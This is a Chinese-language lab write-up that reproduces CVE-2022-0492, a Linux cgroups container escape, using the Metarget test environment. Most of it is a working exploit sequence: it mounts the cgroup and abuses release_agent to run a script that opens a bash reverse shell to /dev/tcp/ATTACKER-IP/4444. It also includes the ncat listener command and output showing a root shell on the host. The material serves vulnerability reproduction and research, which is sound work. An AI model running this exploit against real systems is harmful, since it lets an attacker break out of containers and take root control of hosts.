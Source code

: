 # Linux内核漏洞导致容器逃逸（CVE-2022-0492）

## 场景介绍

请参考Unit42的[文章](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)。

## 环境搭建

宿主机环境：

- Ubuntu 18.04

首先切换内核，直接通过Metarget安装环境：

```bash
./metarget cnv install cve-2022-0492 --verbose
```

基础环境准备（以Docker为例，如果已经有任意版本的Docker则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
```

## 漏洞复现

首先在某处开启一个反弹shell监听：

```bash
# ATTACKER-IP
ncat -lvnp 4444
```

接着创建一个禁用了AppArmor和Seccomp的容器进行复现：

```
root@test:~# docker run -it --security-opt apparmor=unconfined --security-opt seccomp=unconfined --rm ubuntu /bin/bash
root@dbfb1efb9b71:/# unshare -UrmC bash
root@dbfb1efb9b71:/# mount -it cgroup -o rdma cgroup /mnt
root@dbfb1efb9b71:/# d=`dirname $(ls -x /mnt/r* |head -n1)`
root@dbfb1efb9b71:/# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
root@dbfb1efb9b71:/# printf '#!/bin/bash\n/bin/bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1' > /exp.sh; chmod 777 /exp.sh
root@dbfb1efb9b71:/# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@dbfb1efb9b71:/# echo "$t/exp.sh" > $d/release_agent
root@dbfb1efb9b71:/# sh -c "echo 0 >$d/w/cgroup.procs"
```

在`ATTACKER-IP`处收到反弹shell：

```
...
Ncat: Connection from 1.2.3.4.
Ncat: Connection from 1.2.3.4:33868.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@test:/#
```